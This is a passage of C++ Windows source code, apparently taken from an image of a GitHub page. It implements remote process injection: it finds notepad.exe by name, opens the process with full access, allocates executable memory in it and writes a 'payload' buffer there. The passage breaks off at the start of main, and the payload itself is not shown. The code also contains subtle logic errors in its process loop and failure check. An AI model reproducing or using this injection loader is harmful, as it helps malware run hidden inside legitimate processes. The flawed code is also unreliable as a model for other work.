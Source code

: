 };


DWORD GetRemoteProcessID(const std::wstring& processName)
{ 
    PROCESSENTRY32W pe32{};
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    auto hSnapshot { CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0) };
    if(hSnapshot == INVALID_HANDLE_VALUE)
    {
        CloseHandle(hSnapshot);
        return 0;
    } 
    else if(Process32FirstW(hSnapshot, &pe32))
    {
        //If processName is equal to pe32.szExeFile, close handle and return the process ID to the caller.
        while(Process32NextW(hSnapshot, &pe32))
        {
            if(processName == pe32.szExeFile)
            {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }  
        }
    }
    
    CloseHandle(hSnapshot);
    return 0;
}

BOOL MemoryAllocation(const DWORD dwProcessID, LPVOID* lpBuffer, HANDLE* hProcessHandle, SIZE_T& cbSize)
{

    if(dwProcessID == NULL || cbSize == NULL)
    {
        std::cerr << "[-] Invalid argument!..." << std::endl;
        return FALSE;
    } // Obtain a handle to an open process.
    else if(*hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessID))
    {
        try
        {   // Allocate memory for payload.
            *lpBuffer = VirtualAllocEx(*hProcessHandle, NULL, cbSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
            if(!(WriteProcessMemory(*hProcessHandle, *lpBuffer, payload, cbSize, NULL)) && *lpBuffer == nullptr) // Copy payload to memory buffer.
            throw FALSE;
        }
        catch(BOOL e)
        {
            if(*lpBuffer)
                VirtualFreeEx(*hProcessHandle, *lpBuffer, cbSize, MEM_RELEASE);
            else if (*hProcessHandle)
                CloseHandle(*hProcessHandle);
                
            return e;
        }
    }

    return TRUE;
}


int main()
{
    std::wstring lpProcessName{ L"notepad.exe" }; // GetRemoteHandle function performs a case-sensitive string comparison
